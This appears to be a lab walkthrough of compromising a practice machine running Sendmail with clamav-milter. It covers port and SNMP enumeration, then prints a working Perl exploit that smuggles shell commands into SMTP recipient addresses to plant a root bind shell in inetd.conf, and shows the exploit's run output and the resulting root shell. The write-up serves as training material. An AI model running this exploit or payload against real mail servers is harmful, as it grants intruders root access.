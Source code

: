 ____

# Exploitation Guide for ClamAV

## Summary

In this walkthrough, we'll exploit a remote command execution vulnerability in Sendmail running clamav-milter, a ClamAV filter.

## Enumeration

### Nmap

Let's begin with an `nmap` scan against all TCP ports.

```
kali@kali:~$ sudo nmap -p- 192.168.120.81
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-23 09:55 EDT
Nmap scan report for 192.168.120.81
Host is up (0.032s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

Next, let's run an aggressive scan against the discovered open ports:

```
kali@kali:~$ sudo nmap -A -sV -p 22,25,80,139,199,445,60000 192.168.120.81
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-23 10:18 EDT
Nmap scan report for 192.168.120.81
Host is up (0.031s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 1.3.33 ((Debian GNU/Linux))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
|_http-title: Ph33r
139/tcp   open  tcpwrapped
199/tcp   open  smux       Linux SNMP multiplexer
445/tcp   open  tcpwrapped
60000/tcp open  ssh        OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: firewall|general purpose|proxy server|WAP|PBX
Running (JUST GUESSING): Linux 2.6.X (94%), Cisco embedded (94%), Riverbed embedded (94%), Ruckus embedded (94%), ZoneAlarm embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:cisco:sa520 cpe:/h:riverbed:steelhead_200 cpe:/h:ruckus:7363 cpe:/h:zonealarm:z100g cpe:/h:cisco:uc320w cpe:/h:cisco:rv042
Aggressive OS guesses: Cisco SA520 firewall (Linux 2.6) (94%), Linux 2.6.9 - 2.6.27 (94%), Riverbed Steelhead 200 proxy server (94%), Ruckus 7363 WAP (94%), Linux 2.6.9 (94%), Linux 2.6.18 - 2.6.22 (94%), Linux 2.6.9 (CentOS 4.4) (94%), ZoneAlarm Z100G WAP (93%), Linux 2.6.18 (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   29.05 ms 192.168.118.1
2   29.21 ms 192.168.120.81
```

### SMTP Enumeration

Next, we'll use `netcat` to attempt to interact with the SMTP service on port 25.

```
kali@kali:~$ nc -vv 192.168.120.81 25
192.168.120.81: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.120.81] 25 (smtp) open
HELO test
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 23 Mar 2020 14:20:48 -0400; (No UCE/UBE) logging access from: [192.168.118.3](TEMP)-[192.168.118.3]
250 localhost.localdomain Hello [192.168.118.3], pleased to meet you
quit
221 2.0.0 localhost.localdomain closing connection
 sent 15, rcvd 299
kali@kali:~$
```

This enumeration revealed that the service is running `ESMTP Sendmail`.

### SNMP Enumeration

Although we did not scan for the SNMP service on UDP port 161 (UDP scans are unreliable anyhow), let's use `snmp-check` to scan for a running SNMP service on the target.

```
kali@kali:~$ snmp-check 192.168.120.94
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.120.94:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 192.168.120.94
  Hostname                      : 0xbabe.local
  Description                   : Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686
  Contact                       : Root <root@localhost> (configure /etc/snmp/snmpd.local.conf)
  Location                      : Unknown (configure /etc/snmp/snmpd.local.conf)
  Uptime snmp                   : 00:33:28.71
  Uptime system                 : 00:32:46.43
  System date                   : 2020-4-28 16:22:09.0

...

  3761                  runnable              klogd                 /sbin/klogd                               
  3765                  runnable              clamd                 /usr/local/sbin/clamd                      
  3767                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
  3776                  runnable              inetd                 /usr/sbin/inetd
...
```

An SNMP service is running on the target, and the tool returned lots of output. Sifting through it, we discover that `clamav-milter` is running with Sendmail in `black-hole-mode`.

## Exploitation

### Remote Code Execution

A public exploit search reveals a [Remote Command Execution](https://www.exploit-db.com/exploits/4761) vulnerability.

Following the exploit, let's create the following Perl file:

```
kali@kali:~$ cat 4761.pl
#!/usr/bin/perl

use IO::Socket::INET;

print "Sendmail w/ clamav-milter Remote Root Exploit\n"; print "Copyright (C) 2007 Eliteboy\n";
if ($#ARGV != 0) {print "Give me a host to connect.\n";exit;} print "Attacking $ARGV[0]...\n";
$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                                PeerPort => '25',
                                Proto    => 'tcp');
print $sock "ehlo you\r\n";
print $sock "mail from: <>\r\n";
print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
print $sock "rcpt to: <nobody+\"|/etc/init.d/inetd restart\"@localhost>\r\n"; print $sock "data\r\n.\r\nquit\r\n";
  while (<$sock>) {
          print;
}
```

This exploit should hopefully open a bind shell on the target on TCP port 31337. Let's give the exploit executable permissions and run it:

```
kali@kali:~$ chmod 777 4761.pl
kali@kali:~$
kali@kali:~$ ./4761.pl 192.168.120.144
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.120.144...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 3 Aug 2020 16:30:08 -0400; (No UCE/UBE) logging access from: [192.168.118.3](FAIL)-[192.168.118.3]
250-localhost.localdomain Hello [192.168.118.3], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 073KU8jk004063 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
kali@kali:~$
```

If everything worked correctly, we should now be able to connect to the target on port 31337:

```
kali@kali:~$ nc -nv 192.168.120.144 31337
(UNKNOWN) [192.168.120.144] 31337 (?) open
whoami
root
```

## Escalation

Since we've gained access as root, we don't need to escalate our privileges.